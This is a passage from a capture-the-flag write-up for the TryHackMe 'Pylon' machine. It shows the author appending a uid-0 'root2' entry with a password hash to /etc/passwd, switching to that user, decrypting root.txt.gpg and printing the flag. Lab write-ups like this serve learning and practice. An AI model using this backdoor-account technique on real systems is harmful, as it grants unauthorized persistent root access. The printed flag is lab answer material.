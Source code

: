 But we can't decrypt the root.txt.gpg file

```bash
bash-4.4# gpg -d root.txt.gpg 
gpg: can't open 'root.txt.gpg': Permission denied
gpg: decrypt_message failed: Permission denied

```

We will need a proper root shell for this.

What we can do is to add another user called `root2` -

```bash
nano /etc/passwd

# pasted this entry in the end of the file.
root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash

# switch.
su root2
root@pylon:~/.gnupg# su root2
root@pylon:/home/pood/.gnupg# cd /root
root@pylon:~# ls -al
total 36
drwx------  5 root root 4096 Jan 30  2021 .
drwxr-xr-x 24 root root 4096 Mar 30  2021 ..
lrwxrwxrwx  1 root root    9 Jan 30  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  4 root root 4096 Jan 30  2021 .gnupg
drwxr-xr-x  3 root root 4096 Jan 30  2021 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  2 root root 4096 Jan 30  2021 .vim
-rw-------  1 root root  757 Jan 30  2021 .viminfo
-rw-r--r--  1 root root  492 Jan 27  2021 root.txt.gpg
root@pylon:~# gpg root.txt.gpg 
gpg: WARNING: no command supplied.  Trying to guess what you mean ...
gpg: Note: secret key 91B77766BE20A385 expired at Fri Jan 27 19:04:03 2023 UTC
gpg: encrypted with 3072-bit RSA key, ID 91B77766BE20A385, created 2021-01-27
      "I am g ROOT <root@pylon.thm>"
root@pylon:~# ls
root.txt  root.txt.gpg
root@pylon:~# cat root.txt
ThM{OpenVPN_script_pwn}
root@pylon:~# 

```

<figure><img src=".gitbook/assets/image (493).png" alt=""><figcaption></figcaption></figure>

Done!

